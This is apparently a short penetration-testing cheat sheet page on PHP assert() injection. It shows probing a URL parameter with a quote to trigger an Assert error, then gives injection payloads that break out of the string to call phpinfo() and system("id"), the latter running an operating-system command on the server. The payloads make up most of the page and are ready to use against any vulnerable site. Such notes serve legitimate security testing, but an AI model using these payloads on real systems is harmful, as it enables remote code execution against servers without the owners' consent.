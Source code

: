 # Asset () in PHP

Sometimes, you will see an Assert() error when you inject ' (Comma) or something else. This is some payloads that you could try.

```bash
# In PHP, you could try to get any error by inserting a ' comma'
https://<URL>/?name=hacker'  
```

<figure><img src="../../.gitbook/assets/image (80).png" alt=""><figcaption></figcaption></figure>

```bash
# Try the payload
https://<URL>/?name=hacker'.phpinfo().'
https://<URL>/?name=hacker'.system("id").'
```
